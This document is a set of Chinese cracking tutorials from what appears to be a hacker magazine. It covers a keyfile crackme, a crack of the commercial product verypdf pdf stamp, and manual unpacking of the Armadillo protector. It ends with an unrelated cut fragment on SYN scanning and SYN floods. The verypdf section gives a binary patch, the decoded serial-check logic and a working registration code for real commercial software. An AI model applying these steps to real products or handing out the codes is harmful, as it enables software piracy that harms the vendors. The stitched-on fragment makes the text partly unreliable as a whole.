> This is intended for newbies who wants to try out their skills on "Missing key file protection". If you fail or want to ask me something just mail me or check out the homepage and see if there is a tutorial for it there :) !

知道了程序是采用 Key File 来注册的，一般注册文件的话，都会读取该文件，以判断处理，所以这里使用函数作为断点：bp CreateFileA，既然如此，就用 OD 载入程序看看：

```assembly
7C801A38 k> 8BFF         mov edi,edi
; 中断在这里
7C801A3A    55           push ebp
7C801A3B    8BEC         mov ebp,esp
```

别忙着返回到程序领空去，先到堆栈看看：

```
0012FFA4  00401032 /CALL 到 CreateFileA 来自 CRACKME3.0040102D
0012FFA8  004020D7 |FileName = "CRACKME3.KEY"
0012FFAC  C0000000 |Access = GENERIC_READ | GENERIC_WRITE
0012FFB0  00000003 |ShareMode = FILE_SHARE_READ | FILE_SHARE_WRITE
0012FFB4  00000000 \pSecurity = NULL
```

很明显地看到：FileName = "CRACKME3.KEY"，根据以往经验判断，这个 99% 就是注册文件的名称了，知道了这个，现在返回到程序领空去吧：

```assembly
00401023 . 68 000000C0    push C0000000
; Access = GENERIC_READ|GENERIC_WRITE
00401028 . 68 D7204000    push CRACKME3.004020D7
; FileName = "CRACKME3.KEY"
0040102D . E8 76040000    call <jmp.&KERNEL32.CreateFileA>
; \CreateFileA
00401032 | . 83F8 FF       cmp eax,-1
; /// 返回到这里
00401035 | . 75 0C         jnz short CRACKME3.00401043
; 没 KEY 文件就 OVER
```

往上看一下，可以看到刚才看见的注册文件名称，到了 00401032 的时候，就做出一个比较，判断是否存在注册文件 CRACKME3.KEY，没有的话，往下走就一定 OVER 了，所以到这里可以完全地确定 CRACKME3.KEY 就是注册文件的名称了。既然如此，就创建一个 CRACKME3.KEY 文件出来，再用 OD 载入，运行，“砰”的一声，中断下来了，继续往下分析：

```assembly
00401054 | . 68 A0214000    push CRACKME3.004021A0
; |pBytesRead = CRACKME3.004021A0
00401059 | . 50             push eax
; |BytesToRead => 12 (18.)   // 读取文件字节数
0040105A | . 53             push ebx
; |
; |Buffer => CRACKME3.00402008
0040105B | . FF35 F5204000  push dword ptr ds:[4020F5]
; |
; |hFile = NULL
00401061 | . E8 30040000    call <jmp.&KERNEL32.ReadFile>
; \ReadFile
00401066 | . 833D A0214000 12 cmp dword ptr ds:[4021A0],12
; /// 比较
0040106D | . 75 C8         jnz short CRACKME3.00401037
; 没 18 个字节就 OVER
```

既然前面已经判断出有注册文件了，那么就会继续读取文件以判断字节数是否相等，如果相等，就继续往下走，否则路就一定是走到尽头啦：

```assembly
0040106F | . 68 08204000    push CRACKME3.00402008
00401074 | . E8 98020000    call CRACKME3.00401311
; 算法 Call
00401079 | . 8135 F9204000 78 xor dword ptr ds:[4020F9], 12345678
00401083 | . 83C4 04         add esp,4
00401086 | . 68 08204000    push CRACKME3.00402008
```

```assembly
0040108B  |. E8 AC020000        call CRACKME3.0040133C
; 将最后四位转为 16 进制
00401090  |. 83C4 04            add esp,4
00401093  |. 3B05 F9204000      cmp eax,dword ptr ds:[4020F9]
; 比较
00401099  |. 0F94C0             sete al
0040109C  |. 50                 push eax
0040109D  |. 84C0               test al,al
0040109F  |.^74 96              je short CRACKME3.00401037
; 相等就 OVER
```

当走到 00401079 的时候，发现这里有一个异或运算（这里记为 B），走到 0040108B 的时候，发现这里将字节数的最后四位转化为 16 进制了（这里记为 C），走到 00401093 的时候，这里将 B 和 C 进行比较，相等就注册成功了。

```assembly
004010A1   . 68 0E214000        push CRACKME3.0040210E
; CrackMe v3.0
004010A6   . E8 9B020000        call CRACKME3.00401346
004010AB   . 83C4 04            add esp,4
004010AE   |> 6A 00             push 0
; /Title = NULL
004010B0   . 68 28214000        push CRACKME3.00402128
; |No need to disasm the code!
........
00401123   . C705 9A204000 2>mov dword ptr ds:[40209A], CRACKME3.00402128 ; No need to disasm the code!
0040112D   . 68 76204000        push CRACKME3.00402076
; /pWndClass = CRACKME3.00402076

0040115E   . 68 28214000        push CRACKME3.00402128
; |No need to disasm the code!

0040118C   . 68 86214000        push CRACKME3.00402186
; Now try the next crackme!
00401191   . 68 6A214000        push CRACKME3.0040216A
; Cracked by:           Now try the next crackme!
00401196   . 68 08204000        push CRACKME3.00402008
```

上面代码可以看到失败或者成功的信息内容，虽然这里无关紧要，但在某些时候，它还是会显示出它迷人的风采的，因为注册提示成功或者失败，一直是我们菜鸟们的至爱。

下面我们进去 00401074 看看，因为这里是注册验证的一部分：

```assembly
00401311   /$ 33C9              xor ecx,ecx
; kernel32.7C8018C2
00401313   |. 33C0              xor eax,eax
00401315   |. 8B7424 04         mov esi,dword ptr ss:[esp+4]
00401319   |. B3 41             mov bl,41                   ; bl = 41
0040131B   |> 8A06              /mov al,byte ptr ds:[esi]
0040131D   |. 32C3              |xor al,bl                  ; al xor bl
0040131F   |. 8806              |mov byte ptr ds:[esi],al
; 保存结果
00401321   |. 46                |inc esi
00401322   |. FEC3              |inc bl                     ; +1
00401324   |. 0105 F9204000     |add dword ptr ds:[4020F9],eax
; 累加
0040132A   |. 3C 00             |cmp al,0
0040132C   |. 74 07             |je short CRACKME3.00401335
0040132E   |. FEC1              |inc cl
00401330   |. 80FB 4F           |cmp bl,4F
00401333   |.^75 E6             \jnz short CRACKME3.0040131B
00401335   |> 890D 49214000     mov dword ptr ds:[402149],ecx
0040133B   \. C3                retn
```

从上面代码很明显看出，先置入 bl=41，然后再取字节数进行异或运算，再将 bl 进行累加，最后再将所有结果进行累加（为方便表达，累加结果记为 A，下同），不是很难，如果还不懂的话，可以自己动手操作一下。

### 小结

到此，这个 Crackme 的注册验证就基本分析完毕，或许前面分析的东西，你还不是太懂，那么下面我就来做个小结吧：程序首先判断是否有 CRACKME3.KEY 文件；如果没有就挂了，如果有就继续判断字节数大小是否为 18 个字节，没有就 OVER，有就往下进行运算，最后判断 B 和 C 是否相等，相等就注册成功，否则再次 OVER。文件内容：12365478901236$P4

如果你在学习过程中有问题的话，可以到《黑客手册》的官方论坛发表你的问题或意见！

> **编辑点评：**文章介绍的只是一个简单的 Keyfile 的破解，对于 Keyfile 类型的验证，破解过程大致如文章所说。对于那些验证信息保存在这个 Keyfile 中的软件，无非就是再多几步破解掉对那些信息的验证部分。

## verypdf pdf stamp 的挑战

Kfmig

### 从本文中你可以学到：

- 破解 verypdf pdf stamp

最近手头的破解工作，半成品居多，今天拼了老命终于把它做成了成品。Crack 难，难于上青天！

首先我想的只是爆破。

PEiD 说：“我什么也没有查到。”在额外信息中我们可以知道它已经加壳了。我猜它不是加了个新壳，就是某某修改版的壳吧！用 PEiD 的壳插件试试，果然不行。管它呢，既然查不到，那么，我就手动吧。

### 踏入黑暗深渊的第一步

这里我就不说，我怎么勇敢地脱了它的马甲。因为我差点被它给折腾死，最后依旧无功而返，不是说 OEP 怎么难找，而是我的 ImportRec 无法找到它的输入表（我开始以为 OEP 找错了，后来才知道并没有找错）。最后正当要放弃的时候，突然想到了还有一个不知从哪里翻来的脱壳实力极强的 Quick Unpack 1.0 Beta 3，竟然行了（不知道你的脱壳工具行不行），脱了（此时才知道我刚才 OEP 并没有找错）！

用 OD 载入它，现在这世上各种各样的 OD 版本真的太多了，我先用的是 OD 原版（在这里这个有很大的关系），载入后，OD 可能会有这样的一个对话框。如图 1。

没有关系，确定即可。进去之后发现不在它自己的领空，而在系统的 ntdll 模块中，也没有关系，按 Alt+F9 就可以了。

### 踏入黑暗深渊的第二步

假如你正在看这篇文章，而且你的身边还有一台电脑的话，那么请你也试试看，内存区域空空（其实这个不是大问题，随便来个 d esp 就出来了），本地调用的名称（Ctrl+N）竟

全啊（是吧？！）怎么办，如何下断？莫着急，我们还有一个极好的插件，就是传说中的命令输入框。F9（运行），出来一个讨厌的东西，叫你注册。回到 OD，输入 `bp GetDlgItemTextA`（注意函数的大小写也有关系）。随便输一点，比如 123789。我喜欢这个数字。确定，断下来了，在 user32 的领空里，没有关系，Alt+F9 就可以了（这个方法你记住了吗？）。回到它自己的领空，如图 2 所示。

看到旁边的注释，你大概也知道这是什么意思了吧！待我看到 `004085EC JE SHORT 复件_PDF.00408627` 时，我感到这个跳转很可疑。所以 F8 到这里，它说我要跳了，我说你先别跳，在右边寄存器框里的 Z 上单击，然后 F9（这招记住吧，很有用的）。然后这个软件就说：“谢谢。”好，太好了！

所以我们确定 `004085E2 E8 99F7FFFF CALL 复件_PDF.00407D80` 是关键 call。

- `004085D7` 取值
- `004085E2` 关键 call
- `004085EC` 跳不得
- `004085FB` 注册成功

看到这里，也许诸君就忍不住想去改那个“跳不得”的跳转了吧！试试，当然不行，每次启动它都这么输一遍多么讨厌啊！

下面 IDA 出场。为什么用 IDA，因为这个东西，无论是 w32Dasm 也好，还是其它的也罢，都不行，唯有 IDA 可以傲慢地笑。载入有些慢，不要着急。好了吗？让我们开始，不要害怕大段大段的代码，爆破不需要每一句都懂，只要懂一个大概就可以了。

```assembly
PS____:004085B2 loc_4085B2: ; CODE XREF: DialogFunc+5A j
......
PS____:004085F0 push offset asc_4B1A08 ; "感谢?"
PS____:004085F5 push offset asc_4B19D8 ; "感谢?"
PS____:004085FA push esi ; hWnd
PS____:004085FB call MessageBoxA
```

其实这里就是图 2 的一部分，但一个不同点就是 IDA 把“感谢”和 hWnd（句柄）都识别出来了，更容易理解。让我们双击 `DialogFunc+5A ↑ j`（这就是交叉参考），来到那个地方。这就说明 OD 中得下断（0040853A）的关键地方，这不用我讲，相信大家也都知道了吧！

接下来，OD 重新来一次，Ctrl+G 到 0040853A，在此处下断（这时，OD 说：“你真的要在这里断吗？这里可是 code 段外啊！”别管它，断！），然后 F9，它在此处断下了，下面就要手动跟踪了（F8，步过）。F8 一直下去，如果进入了 USER32 的领空内，那么，告诉你怎么办？忘了就看前面，答案就是 Alt+F9！不要以为回到了老地方就是进入了软件作者为 cracker 特别设计的逻辑炸弹里面了。终于，在 F8 + Alt+F9 的帮助之下，我们又来到了如图 3 所示的地方。

为什么这个地方引起了我们的重视，看到了吗？`EndDialog`，根据英文猜测，使“请求注册的对话框”消失，还有：

```assembly
call 地址
test 寄存器, 寄存器
jnz 地址
```

太经典的对白了。

这两点加在一起使我们想到，0040881A 是一个和 004085E2（前面图 2 中找找）具有同样功能的 call，判断是否注册成功。假如在 00408821 的地方跳了，那么就是非常地不幸运了。它阴魂不散地又来了！

好了，现在我们就可以把 00408821 中的 `jnz` 改成 `jz` 了。其实更好的改法是把 `test eax, eax` 改成 `sub eax, eax`。为什么这样改，因为下面是 `jnz`，也就是说若 `eax<>0` 那么我们就完了，所以 `eax` 一定要等于 0。那么我们不如手动将它改一改，让 `eax` 自己清零。`sub` 同时具有改变标志寄存器的作用，所以 `ZF` 就被置为 1 了，下一行也就不会跳了。这样的好处是，在一般情况下，当我们输入了正确的序列号时，如果 `jnz -> jz`，那么注册反而不成功；按照我的最优改法不会出现那样的情况（虽然这个软件在我们修改之后，注册的按钮会变成不可选）。你用 OD 修改并保存好了吗？当然不可以，因为它在 code 段外，OD 无法修改。

## 踏入黑暗深渊的第三步

这有什么关系，我用 UltraEdit 来修改好了，偏移 = `0040881F - 400000`，怎么不对了，机器码不对啊？偏移 881F 处怎么是 19，应该是 85 的啊！不要忘记，现在不在 code 段内，所以，IDA 再次出场！什么，它早被你关了？重新打开。来到 0040881F，看 IDA 最下面，如图 4 所示。

所以实际上偏移应该是 `00007C1F`，OD 中先把 `test` 改成 `sub`，得知 `sub` 的机器码为 `2B`。好了现在，我优哉游哉打开 UE，来到 `00007C1F`，把 `85` 改成 `2B`。保存好了一切 OK！截一张图片来纪念我们的产物，注册按钮变灰色了！如图 5。

我也本以为一切 OK 了！可是经过使用之后才发现，脱壳之后其实它就死掉了，无法正常使用了。何况修改过之后呢？

## 踏入黑暗深渊的第四步

怎么办呢？当然现在让 keymaker 出场，我想也许可以打一个内存补丁，来到光明的天堂？当然没有，它还是依旧跳出来，怎么办？有时候爆破并不是最简单的！比如说，这个家伙就是……

这次我用的是 fixdbg diy crack team，这个家伙好啊！载入的时候也有一个警告框，不管它，确定就可以了。现在 Ctrl+N，我不说了相信你也知道了，竟然都出现了，都是 OD，差距咋这么大呢。还有它的脱壳版和不脱壳版的巨大区别就是在开始载入时的区别！但我们有我们的命令提示框插件，所以其实不脱壳的版本调试也是可以的，但以下我调试的是脱壳的版本。

好了，爆破不行，现在我们来分析算法。先用 PEiD 自带的插件 KANAL 扫描一下，如图 6。

查到如图 7 所示。

`crc32` 肯定不是算法！也许是自校验。在爆破前为什么不先检查一下它有无自校验呢！`MD5` 也许会是算法，但是这种算法在这里是不可怕的。

OD 载入我们脱了壳的家伙，虽然软件注册后不能用了，但是算法还在，而且还可以被调试。跳出一个框，输入伪码 123789！

然后回到 OD，用 apibreak（一个插件）下一个万能断点，如图 8 所示。

当然根据后面的代码及注释，我们也可以看到下断点在 `GetDlgItemTextA` 或 `MessageBoxA` 都可以到达！然后回到软件界面，点击确定。

OD 断下了。我们按 Alt+F9（返回到应用程序领空）。还记得图 2 吗，就在那个地方断下了！

```assembly
004085E2    E8 99F7FFFF    CALL 复件_PDF.00407D80 ; 是关键 call
```

进去看看。我把伪码改成 1234567898765432（一共 16 位，先不要问为什么，先看下去）。关键代码有点长，但是都如出一辙！

```assembly
/*407D80*/ SUB ESP,18
/*407D83*/ PUSH EBX
/*407D84*/ PUSH EBP
/*407D85*/ PUSH ESI
/*407D86*/ MOV ESI,DWORD PTR SS:[ESP+28] ; 走到这里 ESI 存储的地址就是伪码的地址
/*407D8A*/ LEA EDX,DWORD PTR SS:[ESP+C]
/*407D8E*/ PUSH EDI
/*407D8F*/ MOV AL,BYTE PTR DS:[ESI+E] ; 看到这句和下面一句我们就应该知道密码长度至少是 16 位
/*407D92*/ MOV CL,BYTE PTR DS:[ESI+F] ; 上一句和这一句就是把第 15 位和第 16 位复制到 AL 和 CL
/*407D95*/ MOV EDI,DWORD PTR DS:[<&msvcrt.atoi>]
```

其实这个东西真的很弱，因为下面 `call edi`，call 的就是它啊！

```assembly
/*407D9B*/ XOR BL,BL ; BL 清零
/*407D9D*/ PUSH EDX
/*407D9E*/ MOV BYTE PTR SS:[ESP+20],AL
/*407DA2*/ MOV BYTE PTR SS:[ESP+21],BL
/*407DA6*/ MOV BYTE PTR SS:[ESP+14],CL
/*407DAA*/ MOV BYTE PTR SS:[ESP+15],BL
/*407DAE*/ CALL EDI ; 经上面赋值，这里 EDI 的值已经不变了
```

所以 EDI 这个 call 好像是关键中的关键，来到了 MSVCRT，这个竟然是 Windows 自己的东西，软件作者真的很有趣……我也不知道这个是在干什么，但是经过几轮动态分析之后就明白了。然而经过几轮试验之后发现，更多的只是干扰我们的破解，把我们吓跑。对于它的作用，我再调戏它几次之后就了解了，并没有什么的。

```assembly
/*407DB0*/ MOV EBP,EAX
/*407DB2*/ LEA EAX,DWORD PTR SS:[ESP+20]
/*407DB6*/ PUSH EAX
/*407DB7*/ CALL EDI
/*407DB9*/ ADD EBP,EAX ; 其实这里等价于第 16 位和第 15 位相加的和（注意是等价于不是等于），与 /*407D8F*/ 和 /*407D92*/ 两句遥相呼应！
```

```assembly
/*407DBB*/ ADD ESP,8 ; 这种语句都是为了保持堆栈平衡
/*407DBE*/ CMP EBP,8 ; 比较 16 位和 15 位的和是否为 8
/*407DC1*/ JE SHORT 复件_PDF.00407DCD ; 这边一定要跳，否则 /*407DC6*/ XOR EAX,EAX 之后 EAX 变为 0，再 RETN（返回）那么又错了！
```

```assembly
/*407DC3*/ POP EDI
/*407DC4*/ POP ESI
/*407DC5*/ POP EBP
/*407DC6*/ XOR EAX,EAX
/*407DC8*/ POP EBX
/*407DC9*/ ADD ESP,18
/*407DCC*/ RETN
/*407DCD*/ MOV CL,BYTE PTR DS:[ESI] ; 都和上面基本上一样，没有什么花头！
/*407DCF*/ MOV DL,BYTE PTR DS:[ESI+1]
/*407DD2*/ LEA EAX,DWORD PTR SS:[ESP+10]
/*407DD6*/ MOV BYTE PTR SS:[ESP+1C],CL
/*407DDA*/ PUSH EAX
/*407DDB*/ MOV BYTE PTR SS:[ESP+21],BL
/*407DDF*/ MOV BYTE PTR SS:[ESP+14],DL
/*407DE3*/ MOV BYTE PTR SS:[ESP+15],BL
/*407DE7*/ CALL EDI
/*407DE9*/ LEA ECX,DWORD PTR SS:[ESP+20]
/*407DED*/ MOV EBX,EAX
/*407DEF*/ PUSH ECX
/*407DF0*/ CALL EDI
/*407DF2*/ ADD EBX,EAX ; 和上面差不多，等价于第一位和第二位的和，也和 /*407DCD*/ + /*407DCF*/ 呼应，^_^
/*407DF4*/ ADD ESP,8
/*407DF7*/ CMP EBX,9 ; 比较第一位和第二位的和是否为 9
/*407DFA*/ JE SHORT 复件_PDF.00407E06 ; 还是得跳
/*407DFC*/ POP EDI
/*407DFD*/ POP ESI
/*407DFE*/ POP EBP
/*407DFF*/ XOR EAX,EAX
/*407E01*/ POP EBX
/*407E02*/ ADD ESP,18
/*407E05*/ RETN
/*407E06*/ CMP BYTE PTR DS:[ESI+C],48 ; 更加简单了，因为这步是在 ESI 的基础上加的，所以第 D 位（也就是第 13 位）的 ASCII 码值是否为 48（即 0）
/*407E0A*/ JE SHORT 复件_PDF.00407E16 ; 还是要走
/*407E0C*/ POP EDI
/*407E0D*/ POP ESI
/*407E0E*/ POP EBP
/*407E0F*/ XOR EAX,EAX
/*407E11*/ POP EBX
/*407E12*/ ADD ESP,18
/*407E15*/ RETN
/*407E16*/ CMP BYTE PTR DS:[ESI+9],4B ; 比较第 10 位是否为 4B（K）
/*407E1A*/ JE SHORT 复件_PDF.00407E26 ; 再跳
/*407E1C*/ POP EDI
/*407E1D*/ POP ESI
/*407E1E*/ POP EBP
/*407E1F*/ XOR EAX,EAX
/*407E21*/ POP EBX
/*407E22*/ ADD ESP,18
/*407E25*/ RETN
/*407E26*/ MOV CL,BYTE PTR DS:[ESI+5]
/*407E29*/ XOR EAX,EAX
/*407E2B*/ POP EDI
/*407E2C*/ CMP CL,4C ; 第 6 位是否为 4C（L）
/*407E2F*/ POP ESI
/*407E30*/ POP EBP
/*407E31*/ SETE AL
/*407E34*/ POP EBX
/*407E35*/ ADD ESP,18
/*407E38*/ RETN
```

这个时候写注册机就很容易了，我不写了。注册后会在 system32 下生成一个叫 `winpdfstamp.dat` 的文件，里面有一些看不懂的东西。提供一组可用的注册码：`63378L121K13H135`

最后截一张图来证明我们的成功，整个工作就完成了！如图 9。

## 编辑点评：

本文作者在破解时经历了不少辛酸，如果要是用爆破的话，可以先考虑破解自校验，这部分在以前的手册有过介绍。有时候爆破是解决不了问题的，还是需要你耐心地研究算法。

## 驯服大鳄鱼 Armadillo

风飘雪

- 从本文中你可以学到：
- 一、认识 Armadillo 壳
- 二、OllyDbg 手动脱 Armadillo 壳

今天讲解如何脱 Armadillo（英语的意思是鳄鱼）壳，这个壳是著名的猛虎之一，和大 S 的 ASProtect 齐名。软件的网站是 http://siliconrealms.com/ ，更新快。截至到我写此教程时的最新版本为 4.54 测试版。现在用它加壳的软件越来越多，非常流行。其实，现在有一款专用脱此壳的软件发展得比较成熟，基本上可以完美地脱掉所有的 Armadillo 壳，这款宝贝就是 mm_dillodie，截至到我写此教程时的最新版本为 v1.6。界面如图 1。

Armadillo 的基础就是单进程标准版（Standard）。Armadillo 很多的花样（也是它的特色），如双进程（就是 DebugBlocker，一回事）、CopyMem II、Nanomites、Import Elimination、Strategic Code Splicing 等，将花样逐个去掉后，最终还是会回归到单进程标准版。

很多人一提到大鳄鱼壳，就非常害怕。其实，它就像北京世界公园表演的鳄鱼一样，你可以把脖子伸到它张开的长嘴中怡然自得。

下面将详细地讲解 OllyDbg 手动脱壳 Armadillo 的步骤。

## 例 UnPackMe_Armadillo4.44.a.exe

### 4.44 标准版单进程

**第一步**：侦测它的花样，用软件 Armadillo Find Protected 1.3，简称 ArmaFP。界面如图 2。

用它侦测我们的目标程序，侦测结果如图 3：

可以看到，这个就是标准版的。

### 第二步：寻找入口点 OEP

配置 OllyDbg，忽略所有一切异常，调试选项如图 4 所示。IsDebugPresent 插件点 hide。

#### 方法 1：按照前面教程介绍的，代码段内存访问断点。

不要对我说你不会啊！我会很失望的。Alt+M 按图 5 对 code 段下内存访问断点。

按 F9，出现异常，Shift+F9，停在下面。

```assembly
00CD0081 8B12 mov edx, dword ptr ds:[edx]
```

再 F9，停在图 6 所示。

OEP 为：4271B0，记下来，以后要用到。

#### 方法二：CreateThread 断点法

重新载入目标程序。命令行插件中输入 `bp CreateThread` 回车，断点就设好了。按一次 F9。

提示异常，Shift+F9，停在下面。

```assembly
7C810637 kernel32.CreateThread 8BFF mov edi, edi
7C810639 55 push ebp
7C81063A 8BEC mov ebp, esp
```

再按一次 F9，如有异常就 Shift+F9，停在下面，堆栈窗口如图 7 所示：

图 8 Ctrl+F9 就是一个循环，向下的第一个 `retn`。

命令行插件中输入 `bc CreateThread` 回车，断点就清除了。按一次 Ctrl+F9，来到图 8 所示。

按一下 F8，来到图 9。

按一次 Ctrl+F9，来到图 9 下方所示的 `retn` 那一行，即 CBC732 行。按一下 F8 来到下面：

```assembly
00CCFFF3 59 pop ecx
00CCFFF4 BE E80BCE00 mov esi, 0CE0BE8
00CCFFF9 8BCE mov ecx, esi
00CCFFFB E8 2C8DFDFF call 00CA8D2C
```

向下寻找，有两个离得很近。的 call ecx，如图 10。

第二个 call ecx 很关键，F4 来到后，ecx 装的值就是 OEP=4271B0，按 F7 即可进入。和图 6 所示的相同。这么简单，你学会了吗？

```asm
00CD00C6 FF77 18        push dword ptr ds:[edi+18]
00CD00C9 FF77 14        push dword ptr ds:[edi+14]
00CD00CC FF77 10        push dword ptr ds:[edi+10]
00CD00CF 8B50 68        mov edx, dword ptr ds:[eax+68]
00CD00D2 3350 14        xor edx, dword ptr ds:[eax+14]
00CD00D5 3350 10        xor edx, dword ptr ds:[eax+10]
00CD00D8 2BCA           sub ecx, edx
00CD00DA FFD1           call ecx
00CD00DC EB 1D          jmp short 00CD00FB
00CD00DE 83FA 01        cmp edx, 1
00CD00E1 75 1B          jnz short 00CD00FE
00CD00E3 FF77 04        push dword ptr ds:[edi+4]
00CD00E6 FF77 08        push dword ptr ds:[edi+8]
00CD00E9 6A 00          push 0
00CD00EB FF77 0C        push dword ptr ds:[edi+0C]
00CD00EE 8B50 68        mov edx, dword ptr ds:[eax+68]
00CD00F1 3350 14        xor edx, dword ptr ds:[eax+14]
00CD00F4 3350 10        xor edx, dword ptr ds:[eax+10]
00CD00F7 2BCA           sub ecx, edx
00CD00F9 FFD1           call ecx     ; 这里按 F4
00CD00FB 8945 E4        mov dword ptr ss:[ebp-1C], eax
00CD00FE 8B45 E4        mov eax, dword ptr ss:[ebp-1C]
00CD0101 8B4D F0        mov ecx, dword ptr ss:[ebp-10]
```

图 10 点住 CD00F9 行按 F4

需要说明的是：armadillo 4.xx 关键点是一个 call ecx；armadillo 3.xx 关键点是一个 call edi。

```asm
004271B6 FF15 DC904200   call dword ptr ds:[4290DC]
004271BC 33C0            xor eax, eax
004271BE 40              inc eax
004271BF 83F8 01         cmp eax, 1
004271C2 75 08           jnz short 004271CC
004271C4 FF15 D8904200   call dword ptr ds:[4290D8]
004271CA EB 02           jmp short 004271CE
004271CC 33C0            xor eax, eax
004271CE 8945 E4         mov dword ptr ss:[ebp-1C], eax
004271D1 8B45 E4         mov eax, dword ptr ss:[ebp-1C]
004271D4 8BE5            mov esp, ebp
```

图 11 定位 4271D6 行，跟随内存窗口

据此，也可以判断你手脱的 armadillo 的版本。

## 第三步：寻找 magic call

“众里寻他千百度，蓦然回首，那人却在灯火阑珊处。”


图 12 内存窗口选定黄色所示字节，设定硬件写入断点

来到 OEP 后，如图 6，定位向下的第一个 call [x x x x]，如图 11。

内存窗口设定如图 12 黄色所示字节，设硬件写入断点。设好后，重新载入目标程序，如图 13。


图 13 重新载入目标程序，这是第二次载入

按一次 F9，出现异常，Shift+F9 跳过，来到图 14 所示的地方。

77 x x x x x 是通用模块，不是我们所关心的程序自己的领空，继续按一次 F9，来到图 15 的地方：

```asm
77C16FA3  F3:A5            rep movs dword ptr es:[edi], dword ptr ds:[esi]
77C16FA5  FF2495 B87DC177  jmp dword ptr ds:[edx*4+77C17DB8]
77C16FAC  8BC7             mov eax, edi
77C16FAE  BA 03000000      mov edx, 3
77C16FB3  83E9 04          sub ecx, 4
77C16FB6  72 0C            jb short msvcrt.77C16FC4
77C16FB8  83E0 03          and eax, 3
```

图 14 第一次停在这里

```asm
00CCCCD0  8B05 10D97F77   mov eax, dword ptr ds:[EOP-2CF8]
00CCCCD6  83C0 64         add eax, 64
00CCCCD9  3905 10D97F77   cmp dword ptr ss:[ebp-2EF8], eax
00CCCCDF  E9 A3FCFFFF     jmp 00CCC987
00CCCCE4  FF15 7C72CD00   call dword ptr ds:[CD727C]    ; kernel32.GetTickCount
00CCCCEA  2B05 A8D4FFFF   sub eax, dword ptr ss:[ebp-2B58]
00CCCCF0  8B0D A8D4FFFF   mov ecx, dword ptr ss:[ebp-2B58]
```

图 15 第二次停在这里

```asm
00CCCCD2  8D05 58C1FFFF   lea eax, dword ptr ss:[ebp-3EA8]
00CCCCD8  FF30            push dword ptr ds:[eax]
00CCCCDA  E8 FA59FDFF     call 00CA25D9      ; magic call
00CCCCDF  83C4 0C         add esp, 0C
00CCCCE2  8D05 58C1FFFF   lea eax, dword ptr ss:[ebp-3EA8]
00CCCCE8  50              push eax
00CCCCE9  8D05 68C2FFFF   lea eax, dword ptr ss:[ebp-3D98]
00CCCCEF  50              push eax
00CCCCF0  FF15 9473CD00   call ds:[CD7394]   ; msvcrt._stricmp
```

图 16 magic call 所在

有点意思了，向上寻找 msvcrt._stricmp，如图 16 所示。

找到 magic call 所在位置后，命令行插件输入 hd 回车，弹出如图 17 所示的界面，清除原来设置的硬件写入断点，在 magic call 所在行设硬件执行断点，如图 18。


图 17 清除原来设置的硬件写入断点

修改后如图 20 所示。

```asm
00CCCDDA E8 FA59FDFF    call 00CA25D9
```

图 18 magic call 所在行设硬件执行断点

命令行插件输入 hd 回车，弹出如图 21 所示的界面。

```asm
00CA25D9  55               push ebp
00CA25DA  8BEC             mov ebp, esp
00CA25DC  51               push ecx
00CA25DD  A1 BCF0CC00      mov eax, dword ptr [CCC0BC]
00CA25E2  56               push esi
00CA25E3  53               push ebx
```

图 19 修改点前

Ctrl+G，填入 OEP，如图 22。

```asm
00CA25D9 C3               retn
00CA25DA 8BEC             mov ebp, esp
```

图 20 C3 伺候

点确定后，如图 23，在 4271B0 行设置硬件执行断点。

点 F9，被断。命令行插件输入 hd 回车，清除原来设置的硬件执行断点。


图 21 清除设置在 magic call 行的硬件执行断点

总结：载入目标程序一次，找到 OEP；设硬件写入断点，载入目标程序第二次；清除断点，找到 magic call，设硬件执行断点，载入目标程序第三次；清除断点，修改 C3，设 OEP 处的硬件执行断点；清除断点，到达。


图 22 快速定位

剩下的就是 dump 和修复输入表了，如图 24、图 25。前面的课程已经讲得很详细了，此处不详讲了。

```asm
004271B0 55              push ebp
004271B1 8BEC            mov ebp, esp
004271B3 6A FF           push -1
```

图 23 OEP 所在行硬件执行断点

点 Show Invalid 按钮，如图 26，cut 掉无效的指针。


图 24 用 LordPE 软件 dump 程序，ollydump 插件不行

点 Fix Dump 按钮即可。这时的 dumped.exe 已经能完美运行。


图 25 选定程序，Import Reconstructor 填好 OEP，点 IAT Auto Search，点 Get Imports

脱壳后的程序很大，为 1.3M，包含很多的 armadillo 垃圾代码。主要是 .text1、.adata、.data1 和 .pdata 这四个区段，如图 27 所示。

## 第四步：修改 magic call 并来到 OEP

重新载入程序（这是第三次载入程序），出现异常，Shift+F9 跳过，来到 CCCB0A，按 F7 键进入此 call，如图 19。

用 LordPE 的 PEditor，如图 28，依次删掉 4 个区段。点“Save”按钮保存。Options 选项按图 29 设置。如图 30 rebuild PE，变为原来的 31%，只有 417K。

此时，用 PEiD 侦壳脱壳文件会显示“Armadillo 1.xx-2.xx”，用 16 进制编辑器（WinHex 或 UltraEdit32）把 PE Header+0x1A 和 0x1B 处 MajorLinkerVersion、MinorLinkerVersion 的 53、52 清 00 就行了。


图 26 cut 掉无效的指针

| Name   | VOffset  | VSize    | ROffset  | RSize    | Flags    |
| :----- | :------- | :------- | :------- | :------- | :------- |
| .text1 | 00083000 | 00010000 | 0005E000 | 00010000 | E0000020 |
| .adata | 00093000 | 00020000 | 0006E000 | 00020000 | E0000020 |
| .data1 | 000B3000 | 00006000 | 0008E000 | 00006000 | C0000040 |
| .pdata | 000B9000 | 00006000 | 00094000 | 00006000 | C0000040 |

图 27 armadillo 垃圾区段显示


最最重要的东西学完了，牛刀小试一把，下面来看看双进程（即 DebugBlocker）。

双进程已经被研究透了，只需写入一些代码即可拆解为单进程。参见附件的 ArmMutex.txt。也没几行，其实很简单，我们重复地写它也没意思。

载入或运行双进程程序，在 LordPE 或 Import Reconstructor 中可以看到两个一模一样的程序。

用 OllyScript 插件载入脚本 ArmMutex.txt 后，再看，只看到一个程序在运行。变成单进程了，用刚刚学到的蹂躏它吧！

布置给读者的作业：运用几种不同方法手脱所附的 3 个程序并做出动画教程。

> **编辑点评：**
> Armadillo 虽然是传说中的猛壳之一，但那并不表示它是无法脱壳的，只是在脱壳过程中，你会遇到更多一些的障碍，不要着急，你只要一层一层地把它们解开，没有脱不了的壳。

描。SYN 扫描的优点在于即便日志中对扫描有所记录，但是尝试进行连接的记录也要比全扫描少得多。缺点是在大部分操作系统下，发送主机需要构造用于这种扫描的 IP 包，通常情况下，构造 SYN 数据包是需要超级用户或者授权用户访问专门的系统来调用。SYN 攻击就是利用 TCP/IP 连接建立机制中的安全漏洞。要实施 SYN 洪水攻击，攻击者会使用程序发送大量 TCP SYN 请求来填满服务器的挂起连接队列。这会禁止其他用户建立网络连接。

